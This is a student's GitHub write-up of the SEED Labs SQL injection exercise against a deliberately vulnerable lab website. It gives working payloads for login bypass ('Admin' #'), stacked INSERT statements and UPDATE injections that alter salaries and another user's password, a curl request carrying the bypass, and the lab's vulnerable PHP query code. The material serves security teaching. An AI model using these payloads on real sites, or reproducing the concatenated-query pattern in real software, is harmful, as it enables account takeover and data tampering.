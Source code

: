 # Sql-Injection
# Task 1: Log in MYSQL:

		mysql -u root -pseedubuntu
		mysql> use Users;
		mysql> show tables;
	
//Use such a SQL query:

		select * from credential where Name='Alice';
    
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%201.png)


# Task 2:

--> Task 2.1

  	.USERNAME: "Admin' #"
  
  	.PASSWORD: "xyz" (here is password is optional)

	//We will result in SQL Query

	 	SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
    
--> Task 2.2

  	1- Write Code on Terminator in Seed Lab:
	  
    curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	  
    2- Copy the HTML code.
	  
    3- Make a new file in location "file:///home/seed/Documents/temp.html"
	  
    4. Run this location on browser
    
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%202.1.png)


--> Task 2.3: inject statment to append a row to current database:
	
	  INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
	  
    After row inserted, go to browser and input as:
	  
    .USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Shoaib','17422') #"
	  .PASSWORD: "" (blank field)
    
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%201.png)



# Task 3
Run this on browder "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php"

--> Task 3.1

	  1- Login as Username= 'Alice' && Password = xyz, 
	  2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	  3- Update Phone Number as ', Salary=1000000 and save.
    
--> Task 3.2

	  1- Login as Username= 'Boby' #' and then open edit profile
	  2- Update Phone Number: ',Salary=0 and remaining unchanges
    
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%202.2.png)

	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
  
--> Task 3.3: We're login as Boby but change password of Alice

	 $conn = getDB();
	 // Don't do this, this is not safe against SQL injection attack
	 $sql="";
	 if($input_pwd!=''){
	 // In case password field is not empty.
	 $hashed_ = sha1($input_pwd);
	 //Update the password stored in the session.
	 $_SESSION['pwd']=$hashed_pwd;
	 $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	 }else{
	 // if passowrd field is empty.
	 $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	 }
	 $conn->query($sql);
   $conn->close();
	 header("Location: unsafe_home.php");
	 exit();
